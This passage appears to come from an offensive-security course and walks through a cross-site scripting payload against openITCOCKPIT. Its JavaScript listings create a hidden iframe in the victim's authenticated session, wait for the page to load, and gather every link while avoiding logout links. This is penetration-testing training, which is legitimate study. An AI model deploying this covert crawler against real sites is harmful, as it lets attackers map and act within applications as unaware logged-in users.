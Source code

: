 In addition to loading the home page, there are a few additional important items to consider regarding loading the links we discover. First, we don't want to follow a link that will log out the current session. So we will avoid any links that contain the words "logout", "log-out", "signout", or "sign-out". Second, we don't want to scrape all links as soon as we open the iframe. We have already seen that openITCOCKPIT loads a lot of JavaScript. This JavaScript could load additional content after the HTML is rendered. To avoid this, we will wait a few seconds after the page is "loaded" to ensure that everything is added to the DOM.

We will add JavaScript beneath the existing client.js code that will create a full-page iframe element, set an onload action, and set the source of the page to the root of openITCOCKPIT. The JavaScript code for this is shown in Listing 31.

var iframe = document.createElement('iframe');
iframe.setAttribute("style","display:none")
iframe.onload = actions;
iframe.width = "100%"
iframe.height = "100%"
iframe.src = "https://openitcockpit"

body = document.getElementsByTagName('body')[0];
body.appendChild(iframe)
Listing 31 - Creating a homepage iframe

We don't want the victim to see the page loading, so we will set the style attribute to "display:none". Even though the iframe is not shown, the browser will still load the page.

The third line in Listing 31 references an actions function that does not currently exist. The actions function is the callback that defines the actions we want to perform when the page is loaded. As described earlier, we will wait five seconds to ensure that all content is fully loaded and added to the DOM. This might not be necessary, but in a black box scenario, it's better to exercise caution. After the delay, we will call the function that will grab the content we are looking for.

function actions(){
    setTimeout(function(){ getContent() }, 5000);
}
Listing 32 - Actions function

We are separating a lot of the actions into separate functions. This is not absolutely necessary but this will make the code more manageable when we add more functionality, especially in the Extra Mile exercise.

The actions function waits five seconds and calls getContent():

function getContent(){
}
Listing 33 - getContent definition

In getContent(), we will grab all the a elements from the iframe, extract all href tags from the a elements, remove all duplicate links, and check the validity of the href URL. When we grab all a elements the getElementsByTagName function will return a HTMLCollection. For further processing, we must convert the HTMLCollection to an Array:

allA = iframe.contentDocument.getElementsByTagName("a")

allHrefs = []
for (var i=0; i<allA.length; i++){
    allHrefs.push(allA[i].href)
}
Listing 34 - Grabbing all a elements
